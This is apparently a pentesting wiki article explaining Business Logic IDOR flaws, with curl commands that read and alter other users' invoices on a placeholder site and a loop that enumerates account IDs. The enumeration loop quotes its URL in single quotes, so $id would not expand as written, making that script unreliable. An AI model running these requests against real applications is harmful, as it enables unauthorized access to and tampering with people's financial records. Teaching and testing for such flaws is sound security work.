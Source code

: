 ```yaml
---
title: Exploiting Business Logic IDOR Vulnerabilities
description: Learn how to exploit Business Logic IDOR for unauthorized access to business
  objects like invoices and accounts, using manual and automated techniques.
keywords:
- Business Logic IDOR
- exploitation
- unauthorized access
- business objects
- vulnerabilities
- authorization bypass
- invoices
- accounts
- application logic
---
```


# Business Logic IDOR

## Context

The purpose of this article is to demonstrate the exploitation of Business Logic IDOR (Insecure Direct Object References) vulnerabilities. These vulnerabilities can be leveraged to access or manipulate unauthorized business objects such as invoices, orders, accounts, and more. This is accomplished by exploiting flaws within the application logic itself. This guide assumes knowledge of business logic, object references, and authorization mechanisms.

## Theory

### Business Logic IDOR Fundamentals

Business Logic IDOR occurs when the access to objects is controlled by business rules, not just by direct identifiers. Attackers exploit weak or predictable business logic to access or manipulate objects that they do not own. The vulnerability arises because authorization checks are either flawed or completely absent, relying on inadequate validation of business logic instead of strict object reference controls.

### Common Business Object Targets

Business Logic IDOR vulnerabilities often target business objects such as invoices, orders, transactions, accounts, subscriptions, billing records, and customer data. The typical attack sequence begins with an attacker identifying object references that are tied to business logic. The attacker then manipulates these parameters with the goal of accessing or altering objects that are otherwise unauthorized.

### Authorization Bypass via Business Logic Flaws

A common vulnerability model includes applications trusting user-supplied object references when business rules are not enforced or lacking on the server-side. Attackers exploit these weaknesses by crafting requests that reference objects outside their authorized scope, taking advantage of missing or weak business logic checks.

## Practice

### Manual exploitation of Business Logic IDOR in invoice management

- **Identify endpoints handling invoice access or modification.**  
  Focus on URLs or API routes such as `/invoice/view?id=12345`.

- **Attempt to access another user's invoice by changing the id parameter:**

  ```bash
  curl -b sessionid=attacker_session 'https://target-app.com/invoice/view?id=10001'
  ```

- **Observe the response for unauthorized invoice data.**  
  Successful access indicates a business logic IDOR.

- **Attempt to modify invoice details for an unauthorized object:**

  ```bash
  curl -b sessionid=attacker_session -X POST 'https://target-app.com/invoice/update' -d 'id=10001&amount=0'
  ```

The outcome of this technique is that the attacker gains access to or modifies invoices belonging to other users, exploiting Business Logic IDOR vulnerabilities.

### Automated enumeration of business object IDs for account takeover

- **Automate requests to enumerate accessible account objects:**

  ```bash
  for id in {10000..10100}; do
      curl -b sessionid=attacker_session 'https://target-app.com/account/view?id=$id'
  done
  ```

- **Review responses for unauthorized account data.**  
  Identify which IDs return valid data not belonging to the attacker.

The outcome of this automated technique is the bulk discovery of accessible business objects due to the exploitation of flawed business logic checks.

## Tools

- **curl**
- **Burp Suite**
- **ffuf** 

These tools can be utilized to manually or automatically exploit Business Logic IDOR vulnerabilities, providing a deeper understanding of potential authorization weaknesses in application logic.